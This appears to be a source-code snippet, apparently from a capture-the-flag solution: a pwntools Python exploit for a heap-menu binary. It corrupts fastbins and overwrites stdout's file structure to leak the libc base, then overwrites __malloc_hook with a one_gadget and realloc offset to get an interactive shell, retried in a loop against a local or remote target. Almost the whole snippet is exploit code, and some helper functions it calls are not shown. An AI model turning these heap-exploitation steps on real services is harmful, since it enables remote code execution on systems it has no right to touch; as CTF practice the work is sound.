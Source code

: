   ```python

def wp_edit(r, idx, context):
	r.sendlineafter('>>', '3')
	r.sendlineafter('input index:', str(idx))
	r.sendlineafter('input context:', context)

def wp_show(r):
	r.sendlineafter('>>', '666')

def exp():
	if 'd' in sys.argv:
		#r = gdb.debug([execve_file] + argv)	# 首先加载当前目录下的动态库文件
		r = process([execve_file] + argv)	# 首先加载当前目录下的动态库文件
	else:
		r = remote(sys.argv[1], sys.argv[2])

	wp_add(r, 0, 0xd0)		#base
	wp_add(r, 2, 0x10)		#base
	wp_delete(r, 0)

	wp_add(r, 1, 0x60)		#base
	wp_add(r, 2, 0x60)		#base + 0x70
	wp_add(r, 3, 0x60)		#base + 0x70 * 2

	wp_delete(r, 2)
	wp_delete(r, 3)
	wp_edit(r, 3, '\x00')
	wp_edit(r, 1, '\xdd\x25')
	wp_add(r, 4, 0x60)
	wp_add(r, 3, 0x60)
	wp_add(r, 2, 0x60)

	wp_edit(r, 2, '\x00' * 51 + p64(0xfbad1800) + p64(0) * 3 + '\x88')
	lib_base = u64(r.recvuntil('\x7f')[-6:].ljust(8, '\x00')) + 0x7ffff7a0d000 - 0x7ffff7dd18e0
	log.info('lib_base => %#x'%(lib_base))


	wp_delete(r, 3)
	wp_edit(r, 3, p64(lib_base + lib.sym['__malloc_hook'] - 0x23))

	wp_add(r, 3, 0x60)
	wp_add(r, 3, 0x60)

	wp_edit(r, 3, '\x00' * 0xb + p64(lib_base + 0x4527a) + p64(lib_base + lib.sym['realloc'] + 8))
	wp_add(r, 3, 0x60)
	r.interactive()

while True:
	try:
		exp()
		break
	except KeyboardInterrupt:
		break
	except:
		continue

	
log.info('-----------------------------------------------------------')
```
